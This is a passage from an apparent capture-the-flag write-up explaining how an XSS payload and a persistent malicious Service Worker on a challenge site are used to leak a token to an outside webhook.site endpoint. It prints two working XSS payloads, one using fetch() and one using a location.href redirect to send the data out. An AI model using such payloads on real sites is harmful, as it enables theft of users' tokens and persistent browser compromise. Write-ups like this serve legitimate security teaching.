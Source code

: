 Since [Service Worker will running at the background](https://developer.mozilla.org/en-US/docs/Web/API/Service_Worker_API), **it doesn't care if the page is closed, our evil registered Service Worker will still stay there!**

**It's worth noting that if the XSS payload is using `fetch()`, it won't reach to our intended endpoint:**
```json
{"token":"<img src=errorpls onerror=fetch('https://webhook.site/[...]')>"}
```

If you recalled correctly, the Service Worker is listening the `fetch()` method, and **it'll send the request to host `testnos.e-health.software`'s `/GetToken` route instead of our intended endpoint**!

**To "bypass" the `fetch()` method, we can simply use the `location.href` property, which redirects user:**
```json
{"token":"<img src=errorpls onerror=location.href='//webhook.site/[...]'>"}
```

> Note: Kudos to my teammate "josefk" and the writeup author "xanhacks" for this `location.href` trick!
> 
> ![](https://github.com/siunam321/CTF-Writeups/blob/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807145124.png)
> 
> ![](https://github.com/siunam321/CTF-Writeups/blob/main/Securinets-CTF-Quals-2023/images/Pasted%20image%2020230807145138.png)

**After sending the registration XSS payload to the bot and spamming the weird response time in `/helloworld` route, it worked!!**
